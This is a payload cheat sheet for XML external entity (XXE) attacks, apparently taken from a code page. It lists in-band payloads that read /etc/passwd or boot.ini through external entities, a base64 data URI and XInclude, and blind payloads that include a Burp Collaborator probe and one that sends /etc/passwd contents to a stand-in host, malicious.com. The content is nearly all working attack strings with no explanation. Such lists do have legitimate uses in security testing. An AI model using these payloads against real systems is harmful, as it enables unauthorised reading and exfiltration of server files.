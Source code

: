 ##### in-band XXE

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>

##############################

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>

##############################

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

##############################

<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>

##############################

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>


```

##### Blind XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>

#################################

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>


```

